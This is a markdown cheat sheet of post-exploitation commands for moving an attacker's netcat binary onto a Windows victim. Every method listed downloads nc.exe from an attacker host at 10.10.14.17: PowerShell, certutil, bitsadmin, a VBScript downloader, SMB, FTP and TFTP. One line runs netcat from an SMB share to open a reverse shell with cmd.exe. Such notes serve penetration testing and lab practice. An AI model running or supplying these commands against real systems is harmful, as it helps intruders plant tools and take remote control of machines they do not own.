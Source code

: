 # Uploading Shells to Windows

## Powershell

```
powershell.exe wget "http://10.10.14.17/nc.exe" -outfile "c:\temp\nc.exe"

powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.17/nc.exe','c:\temp\nc.exe')

powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")


```

## Certutil

```
certutil.exe -urlcache -split -f "http://10.10.14.17/nc.exe" c:\temp\nc.exe
```

## Bitsadmin (BITS)

```
bitsadmin /transfer job /download /priority high http://10.10.14.17/nc.exe c:\temp\nc.exe
```

## VBScript

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Call with:

```
cscript /nologo wget.vbs http://10.10.14.17/nc.exe nc.exe
```

## SMB (Samba)

- Create SMB share using impacket
- Call `net view \\<IP>`
- List with `dir \\<IP>\SHARE`
- Download with `copy \\10.10.14.17\SHARE\nc.exe .`
- Or: Upload from victim: `copy nc2.exe \\<IP>\SHARE\nc2.exe`

**Or execute directly:**

```
\\<IP>\SHARE\nc.exe -nv <IP> 4444 -e cmd.exe
```

## FTP

Some windows version have an interactive version of an ftp client. It's possible to script its usage:

```
echo open <IP>> ftp.txt
echo USER ftp>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

Call with: `ftp -v -n -s:ftp.txt`

## TFTP

- Start with `atftpd --daemon --port 69 ~/dir`
- Download: `tftp -i <IP> GET nc.exe`

## Resources

- [Post Exploitation File Transfers](https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/)
